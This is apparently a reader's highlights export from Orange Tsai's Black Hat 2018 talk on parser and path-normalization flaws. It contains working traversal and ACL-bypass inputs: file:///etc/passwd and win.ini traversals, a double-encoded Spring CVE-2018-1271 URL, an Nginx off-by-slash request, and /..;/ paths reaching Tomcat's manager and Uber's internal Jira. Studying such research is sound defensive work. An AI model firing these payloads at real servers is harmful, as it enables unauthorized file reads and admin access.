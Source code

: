 ```yaml
---
author: "Orange Tsai"
aliases: "Breaking Parser Logic - Take Your Path Normalization Off and Pop 0days Out"
tags: RW_inbox, readwise/articles
url: https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf?ref=labs.watchtowr.com
date: 2025-01-08
---
```

# Breaking Parser Logic - Take Your Path Normalization Off and Pop 0days Out

![rw-book-cover](https://readwise-assets.s3.amazonaws.com/media/reader/parsed_document_assets/251497476/dIJKUpvPoZAhkmlE5hOQ5YuIKSEWUAzI3QCJIir9HXc-cove_ENvTHkT.png)

## Highlights


Normalize To make standard; determine the value by comparison to an item of known standard value
> [View Highlight](https://read.readwise.io/read/01jh38ps94beqg0g4n31j2k0r4)



Why normalization? To protect something
> [View Highlight](https://read.readwise.io/read/01jh38ryek0wjfc4t2qkyt1gyw)



Inconsistency if (check(data)) { use(data) }
> [View Highlight](https://read.readwise.io/read/01jh38tnt96nx0ry8e991cnk2f)



Windows treat as UNC new URL("file:///etc/passwd?/../../Windows/win.ini") Linux treat as URL
> [View Highlight](https://read.readwise.io/read/01jh38tt34x8rdpca378av967s)



## New highlights added January 8, 2025 at 5:35 PM


Normalize To make standard; determine the value by comparison to an item of known standard value
> [View Highlight](https://read.readwise.io/read/01jh39jkm0qp8kns0egam8j6sy)



Why normalization? To protect something
> [View Highlight](https://read.readwise.io/read/01jh39jqa6qynh08wchj0gw363)



Inconsistency if (check(data)) { use(data) }
> [View Highlight](https://read.readwise.io/read/01jh39jtjs81rgb98y4p46wz79)



Windows treat as UNC new URL("file:///etc/passwd?/../../Windows/win.ini") Linux treat as URL
> [View Highlight](https://read.readwise.io/read/01jh39net9ms8sj2xtyqwtcga1)



How parsers could be failed?
> [View Highlight](https://read.readwise.io/read/01jh39nw3mmxpm4pbeaq1x4152)



static String QUOTED_FILE_SEPARATOR = Pattern.quote(File.separator) static String DIRECTIVE_FILE_SEPARATOR = '/' public AssetFile getAsset(String relativePath) { if(!relativePath) return null relativePath = relativePath.replace( QUOTED_FILE_SEPARATOR, DIRECTIVE_FILE_SEPARATOR)
> [View Highlight](https://read.readwise.io/read/01jh39p4yq38w6pq159pgqk6x6)



setFile getAsset(String relativePath) { if(!relativePath) return null Pattern.quote("/") = "\Q/\E"
> [View Highlight](https://read.readwise.io/read/01jh39pngeysbe6bgz8jrexjwp)

> Note: https://stackoverflow.com/questions/15409296/what-is-the-use-of-pattern-quote-method



..\Q/\E is the new ../ in Grails
> [View Highlight](https://read.readwise.io/read/01jh39q0amkpnxqweyarzyvwgb)



/app/static/ v.s. /app/static How single slash could be failed?
> [View Highlight](https://read.readwise.io/read/01jh39rt8sf1wepvykr4zj4xf7)



Nginx off-by-slash fail http://127.0.0.1/static../settings.py location /static { alias /home/app/static/; } Nginx matches the rule and appends the remainder to destination /home/app/static/../settings.py
> [View Highlight](https://read.readwise.io/read/01jh39s4ycsq6e6da0pcm840hh)



Spring 0day - CVE-2018-1271
> [View Highlight](https://read.readwise.io/read/01jh3a5dpjc3nqma2w1da4x7mq)



String[] pathArray = delimitedListToStringArray(pathToUse, "/"); List<String> pathElements = new LinkedList<>(); int tops = 0; for
> [View Highlight](https://read.readwise.io/read/01jh3a8852mx1hyc02nsrjk14z)



Input /foo/../ /foo/../../ /foo//../ /foo///../../ /foo////../../../ cleanPath / /../ /foo/ /foo/ /foo/ Filesystem / /../ / /../ /../../
> [View Highlight](https://read.readwise.io/read/01jh3a97exyfvyr7sf3h267y50)



http://0:8080/spring-rabbit-stock/static/%255c%255c%255c%255c%255c %255c..%255c..%255c..%255c..%255c..%255c..%255c/Windows/win.ini
> [View Highlight](https://read.readwise.io/read/01jh3acazhnyshww9bv4vthezf)



URL path parameter • d http://example.com/foo;name=orange/bar/
> [View Highlight](https://read.readwise.io/read/01jh3bhd6c6v8x1wvmz544kzm0)



Behavior Apache Nginx IIS Tomcat Jetty WildFly WebLogic /foo;name=orange/bar/ /foo;name=orange/bar/ /foo;name=orange/bar/ /foo/bar/ /foo/bar/ /foo /foo
> [View Highlight](https://read.readwise.io/read/01jh3bhqzg8ny66xqwc6kdcjs2)



How danger it could be? • Bypass whitelist and blacklist ACL • Escape from context mapping • Web container console and management interface • Other servlet contexts on the same server
> [View Highlight](https://read.readwise.io/read/01jh3bm4y11w54929p1g6jxasb)



/..;/ seems to be a directory. Take it!
> [View Highlight](https://read.readwise.io/read/01jh3bng8tq3qbc94v3hx9wsh8)



http://example.com/portal/..;/manager/html
> [View Highlight](https://read.readwise.io/read/01jh3bnn6f81tt4jz8yg23ws8r)



OK! /..;/ is the parent directory
> [View Highlight](https://read.readwise.io/read/01jh3bntxsp4pv3pyd2m8nrwpd)



Uber bounty case
> [View Highlight](https://read.readwise.io/read/01jh3btq38tzr9df2tpwxv68hd)



Uber disallow direct access *.uberinternal.com
> [View Highlight](https://read.readwise.io/read/01jh3bvdd55j1kmg3a6xgpfeq8)



But we found a whitelist API(for monitor purpose?)
> [View Highlight](https://read.readwise.io/read/01jh3bvhsj2p632z20pjn43ys2)



https://jira.uberinternal.com/status
> [View Highlight](https://read.readwise.io/read/01jh3bvmrdtw2wamsfztckqd5n)



/..;/ seems to be a directory with the /status whitelist.a
> [View Highlight](https://read.readwise.io/read/01jh3byazsw2afwmz5rrr9jera)



https://jira.uberinternal.com/status/..;/secure/Dashboard.jspa
> [View Highlight](https://read.readwise.io/read/01jh3byfrzgvq5460njknxcw13)



Oh shit! /..;/ is the parent directory
> [View Highlight](https://read.readwise.io/read/01jh3byrpyw89cq1j8e4d9hftc)


